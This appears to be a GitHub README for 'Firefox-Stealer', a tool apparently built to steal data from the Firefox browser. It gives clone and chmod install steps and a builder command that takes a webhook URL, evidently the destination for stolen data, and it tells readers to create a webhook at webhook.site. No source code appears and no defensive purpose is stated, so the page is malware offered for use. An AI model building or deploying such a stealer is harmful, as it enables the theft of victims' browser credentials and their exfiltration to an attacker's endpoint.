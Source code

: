 <h1 align="center">
[ Nahid Alam ]
</h1>

<h2 align="center">
Firefox-Stealer
</h2>
<h2 align="center">
<a href="https://github.com/illusiondemon"><img title="Bangladesh" src="https://img.shields.io/badge/MADE%20IN-BANGLADESH-green?colorA=%23ff0000&colorB=%23017e40&style=flat"></a> 
</p><br>

<h2 align="center">
How To Install
</h2>

`
git clone https://github.com/illusiondemon/firefox-stealer.git
`

`
cd firefox-stealer
`

`
chmod +x *
`

<h5 align="center">How To Use<h5>

`
./builder filename https://webhook.com/code
`

<h5 align="center">Create your own webhook url<h5>
 `
https://webhook.site
 
 <h5 align="center">Screen Shot<h5>
<p align="center">
  <img alt="Layout" src="https://user-images.githubusercontent.com/88379378/173880221-842c57d5-b0b3-4f56-8d24-5e94c8fb17ec.png">
</p>
